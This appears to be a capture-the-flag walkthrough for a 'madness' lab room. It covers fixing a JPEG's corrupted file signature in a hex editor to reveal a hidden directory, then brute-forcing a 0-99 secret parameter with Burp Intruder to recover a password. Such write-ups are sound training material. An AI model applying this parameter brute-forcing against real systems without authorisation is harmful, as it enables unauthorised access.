 1) I see view-source:http://madness.thm/
2) I find a new directory:
```html
  <body>
    <div class="main_page">
      <div class="page_header floating_element">
        <img src="[thm.jpg](view-source:http://madness.thm/thm.jpg)" class="floating_element"/>
```

-----------
STENOGRAPHY PT 1
--
3) I download this file:  curl -i http://madness.thm/thm.jpg --output thm.jpg
4) I analyze the file: strings thm.jpg
```
HTTP/1.1 200 OK
Date: Thu, 08 Dec 2022 11:52:26 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Mon, 06 Jan 2020 10:34:26 GMT
ETag: "56c2-59b7634183080"
Accept-Ranges: bytes
Content-Length: 22210
Content-Type: image/jpeg
$3br
%&'()*456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz   <-- There is a problem
        #3R
&'()*56789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
#|Ttm
```

5) The file contains a errors, in fact, the web page("http://madness.thm/thm.jpg ") anticipated it
6) I must fix this errors
7) I see the default file signature(jpeg) in this site "https://en.wikipedia.org/wiki/List_of_file_signatures":
```
 `   FF D8 FF E0 00 10 4A 46   49 46 00 01`      `ÿØÿà␀␐JFIF␀␁`
```
8) I use the hexeditor tool to  fix: hexeditor thm.jpg
9) After We  see a image, in this image it's written:
```
/th1s_1s_h1dd3n
```


----------------------------

10) I do a HTTP REQUEST (GET):
```
┌──(kali㉿kali)-[~]
└─$ curl http://10.10.202.174/th1s_1s_h1dd3n/ 
```
```html
<html>
<head>
  <title>Hidden Directory</title>
  <link href="stylesheet.css" rel="stylesheet" type="text/css">
</head>
<body>
  <div class="main">
<h2>Welcome! I have been expecting you!</h2>
<p>To obtain my identity you need to guess my secret! </p>
<!-- It's between 0-99 but I don't think anyone will look here-->

<p>Secret Entered: </p>

<p>That is wrong! Get outta here!</p>

</div>
</body>
</html>
```

11) Now I capture this request with Burp Suite: 
```http
GET /th1s_1s_h1dd3n/?secret= HTTP/1.1
Host: 10.10.202.174
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

13) With the Intruder Section, I must create a payload ranging from 1 to 99  each HTTP Request Burp enter in the secret parameter a number(from1 to 99).
14) After that I started Attacks, I must check the lenght, I find that in the Request "/th1s_1s_h1dd3n/?secret=73"  the lenght is 636, I controll the Response and Request:
```HTTP
HTTP/1.1 200 OK
Date: Mon, 12 Dec 2022 16:41:23 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 445
Connection: close
Content-Type: text/html; charset=UTF-8
```
```html
<html>
<head>
  <title>Hidden Directory</title>
  <link href="stylesheet.css" rel="stylesheet" type="text/css">
</head>
<body>
  <div class="main">
<h2>Welcome! I have been expecting you!</h2>
<p>To obtain my identity you need to guess my secret! </p>
<!-- It's between 0-99 but I don't think anyone will look here-->

<p>Secret Entered: 73</p>

<p>Urgh, you got it right! But I won't tell you who I am! y2RPJ4QaPF!B</p>

</div>
</body>
</html>
```

15) I have find the:
- Password: y2RPJ4QaPF!B
